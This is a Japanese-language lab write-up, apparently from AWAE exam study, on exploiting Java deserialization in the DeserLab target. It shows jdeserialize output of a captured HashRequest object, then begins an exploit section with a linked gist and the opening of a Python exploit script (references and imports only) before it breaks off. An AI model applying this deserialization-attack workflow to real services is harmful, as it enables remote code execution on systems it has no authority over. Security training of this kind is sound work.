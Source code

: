 ```txt
```
Serializerableな`nb.deser.HashRequest`クラスが二つのフィールド`dataToHash`,`theHash`を持つことがわかる。   
```txt
root@kali:~/Documents/AWAE/javaDeserialization/DeserLab# java -cp /opt/jdeserialize/jdeserialize/build/jdeserialize.jar org.unsynchronized.jdeserialize rawser.bin 
read: [blockdata 0x00: 4 bytes]
read: [blockdata 0x00: 2 bytes]
read: [blockdata 0x00: 7 bytes]
read: nb.deser.HashRequest _h0x7e0002 = r_0x7e0000;  
//// BEGIN stream content output
[blockdata 0x00: 4 bytes]
[blockdata 0x00: 2 bytes]
[blockdata 0x00: 7 bytes]
nb.deser.HashRequest _h0x7e0002 = r_0x7e0000;  
//// END stream content output

//// BEGIN class declarations (excluding array classes)
class nb.deser.HashRequest implements java.io.Serializable {
    java.lang.String dataToHash;
    java.lang.String theHash;
}

//// END class declarations

//// BEGIN instance dump
[instance 0x7e0002: 0x7e0000/nb.deser.HashRequest
  field data:
    0x7e0000/nb.deser.HashRequest:
        dataToHash: r0x7e0003: [String 0x7e0003: "password"]
        theHash: r0x7e0004: [String 0x7e0004: ""]
]
//// END instance dump

root@kali:~/Documents/AWAE/javaDeserialization/DeserLab# 
```
## exploit (hardcoding)
通信されてるデータをすべてハードコーディングする。意味わかってなくてもとりあえず成功すればヨシ！的な？   
https://gist.github.com/DiabloHorn/8630948d953386d2ed575e17f8635ee7   
```python
#!/usr/bin/env python
"""
    DiabloHorn - https://diablohorn.com
    References
        https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
        https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
        https://deadcode.me/blog/2016/09/18/Blind-Java-Deserialization-Part-II.html
        http://gursevkalra.blogspot.nl/2016/01/ysoserial-commonscollections1-exploit.html
        https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
        https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
        https://www.youtube.com/watch?v=VviY3O-euVQ
        http://wouter.coekaerts.be/2015/annotationinvocationhandler
        http://www.baeldung.com/java-dynamic-proxies
        https://stackoverflow.com/questions/37068982/how-to-execute-shell-command-with-parameters-in-groovy
        https://www.sourceclear.com/registry/security/remote-code-execution-through-object-deserialization/java/sid-1710/technical
"""
import sys
import socket
import argparse
```